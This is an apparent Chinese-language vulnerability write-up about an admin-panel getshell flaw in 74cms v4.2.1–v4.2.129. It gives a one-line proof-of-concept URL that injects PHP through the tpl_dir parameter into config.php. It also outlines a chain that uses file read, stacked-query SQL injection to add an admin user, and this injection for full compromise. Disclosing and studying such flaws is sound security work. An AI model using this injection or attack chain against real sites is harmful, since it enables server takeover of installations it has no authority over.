


74cms v4.2.1-v4.2.129-后台getshell漏洞
======================================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02漏洞演示
------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    shell:http://74cms.test/Application/Home/Conf/config.php
    路径：\74cms\upload\Application\Home\Conf\config.php

0x03 漏洞原理
-------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
    路径：74cms\upload\Application\Admin\Controller\TplController.class.php

    路径： 74cms\upload\Application\Common\Controller\BackendController.class.php

0x04题外话-认真版getshell方法
-----------------------------

认真版getshell方法：实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。首先利用-任意文件读取漏洞-读取系统中的hash值然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户在通过这个后台getshell漏洞即可完成一套日穿

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm
